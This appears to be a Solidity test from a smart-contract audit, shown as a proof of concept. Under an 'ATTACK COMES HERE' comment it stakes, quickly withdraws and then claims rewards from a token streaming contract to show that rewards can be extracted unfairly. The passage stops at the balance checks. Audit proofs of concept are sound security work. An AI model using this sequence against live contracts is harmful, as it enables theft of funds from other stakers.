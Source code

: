             // start stream and fill it
            (
                uint32 maxDepositLockDuration,
                uint32 maxRewardLockDuration,
                uint32 maxStreamDuration,
                uint32 minStreamDuration
            ) = defaultStreamFactory.streamParams();

            uint64 nextStream = defaultStreamFactory.currStreamId();
            Stream stream = defaultStreamFactory.createStream(
                address(testTokenA),
                address(testTokenB),
                uint32(block.timestamp + 10), 
                maxStreamDuration,
                maxDepositLockDuration,
                0,
                false
                // false,
                // bytes32(0)
            );
            
            testTokenA.approve(address(stream), type(uint256).max);
            stream.fundStream(1_000_000_000);

            // wait till the stream starts
            hevm.warp(block.timestamp + 16);
            hevm.roll(block.number + 1);

            // just interact with contract to fill "lastUpdate" and "ts.lastUpdate" 
    	// without changing balances inside of Streaming contract
            alice.doStake(stream, address(testTokenB), stakeAmount);
            alice.doWithdraw(stream, stakeAmount);


            ///// ATTACK COMES HERE
            // stake
            alice.doStake(stream, address(testTokenB), stakeAmount);

            // wait a block
            hevm.roll(block.number + 1);
            hevm.warp(block.timestamp + 16);

            // withdraw soon thereafter
            alice.doWithdraw(stream, stakeAmount);

            // finish the stream
            hevm.roll(block.number + 9999);
            hevm.warp(block.timestamp + maxDepositLockDuration);

            // get reward
            alice.doClaimReward(stream);
     

            // accounting (to proof attack): save the rewardBalance of alice / save balance of stakeToken
            uint EndBalanceA = testTokenA.balanceOf(address(alice));
            uint EndBalanceB = testTokenB.balanceOf(address(alice));
